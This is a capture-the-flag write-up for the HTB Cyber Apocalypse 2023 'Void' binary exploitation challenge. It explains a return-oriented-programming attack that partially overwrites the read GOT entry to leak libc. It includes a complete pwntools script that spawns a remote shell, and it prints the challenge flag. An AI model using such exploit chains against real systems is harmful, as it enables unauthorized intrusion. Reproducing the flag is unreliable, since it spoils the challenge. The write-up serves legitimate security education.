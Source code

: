 # Void - HTB Cyber Apocalypse 2023

## Description

The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution
The binary is tiny, and only calls read to take our user input. This has a buffer overflow in it.

Checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

This is obviously a ret2dlresolve challenge.

However I don't like ret2dlresolve as I don't know how to do it. And to be honest I feel like the technique is not even useful at all. So far I've solved 12/12 challenges which had the intended solution of using ret2dlresolve, without using ret2dlresolve. I'm not about to start learning the technique now!

Since the binary uses read, I took a look at the LSB of read in the GOT, to see if I could overwrite it to become syscall. The answer to that question is yes.

The general flow of exploitation with ROP is then:

1. Call read to overwrite the LSB of the read GOT. So it becomes syscall instead
2. Since overwriting LSB is a one byte read. RAX contains 1. We can now call the Read GOT and instead leak the full GOT
3. Restore the read GOT by jumping to read plt+6. This will re-resolve read and restore its GOT
4. Receive leak and pop shell

Exploit:

```py
from pwn import *

context.binary = "./void"
padding = b'A'*72

io = remote("165.232.108.240",30338)

poprsir15 = p64(0x00000000004011b9)
read = p64(0x00401030)
vuln = p64(0x00401122)
ret = p64(0x0000000000401016)
re_resolve_read = p64(0x00401036)
poprdi = p64(0x00000000004011bb)



payload = [
    #Overwrite LSB so read becomes syscall
    padding,
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    read,
    #Leak the GOT. RAX is already 1
    poprsir15,
    p64(0x404018),
    p64(0xdeadbeef),
    poprdi,
    p64(0x1),
    read,
    #Resolve read back to being read again
    poprdi,
    p64(0x0),
    re_resolve_read,
    vuln
]
payload = b''.join(payload)
sleep(0.1)
io.send(payload)
sleep(0.1)
io.send(b'\x8c')
sleep(0.1)
io.send(b'\x80')

#Receive leak
leak = u64(io.recv(8))
libc_base = leak-0xec78c
print(f"LIBC BASE {libc_base:#x}")


#Spawn shell
poprsi = p64(libc_base+0x000000000002590f)
poprdx = p64(libc_base+0x00000000000c8acd)
poprax = p64(libc_base+0x000000000003be88)
syscall = p64(libc_base+0x00000000000550da)
binsh = p64(libc_base+0x00196152)


payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    poprax,
    p64(59),
    syscall
]

payload = b''.join(payload)
sleep(0.1)
io.send(payload)


io.interactive()
```

## Flag
As expected. The intended solution was ret2dlresolve, and now I'm 13/13 :D

`HTB{r3s0lv3_th3_d4rkn355}`
